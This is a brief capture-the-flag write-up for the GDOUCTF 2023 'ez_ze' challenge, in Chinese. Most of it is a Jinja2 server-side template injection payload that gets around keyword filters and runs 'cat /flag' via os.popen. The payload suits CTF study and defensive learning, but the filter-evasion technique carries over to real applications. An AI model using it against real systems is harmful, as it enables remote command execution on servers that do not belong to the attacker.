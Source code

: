 
## GDOUCTF 2023 ez_ze
[SSTI绕过 | [GDOUCTF 2023]<ez_ze>](https://www.nssctf.cn/problem/3745) [参考文章](https://zhuanlan.zhihu.com/p/619441473)

可用payload：
```python
{%set fza1=dict(po=a,p=b)|join%}
{%set res=(lipsum|string|list)|attr(fza1)(24)%}
{%set fza2=(res,res,dict(globa=a,ls=b)|join,res,res)|join%}
{%set fza3=dict(o=a,s=b)|join%}
{%set fza4=dict(pope=a,n=b)|join%}
{%set fza5=dict(get=a)|join%}
{%set fza6=(res,res,dict(builtins=a)|join,res,res)|join %}
{%set fza7=dict(chr=a)|join%}
{%set char=(lipsum|attr(fza2))|attr(fza5)(fza6)|attr(fza5)(fza7)%}
{%set command=char(99)%2bchar(97)%2bchar(116)%2bchar(32)%2bchar(47)%2bchar(102)%2bchar(108)%2bchar(97)%2bchar(103)%}
{%set re=dict(rea=a,d=b)|join%}
{%set fuck=(lipsum|attr(fza2))|attr(fza5)(fza3)|attr(fza4)(command)|attr(re)()%}
{%print fuck%}
```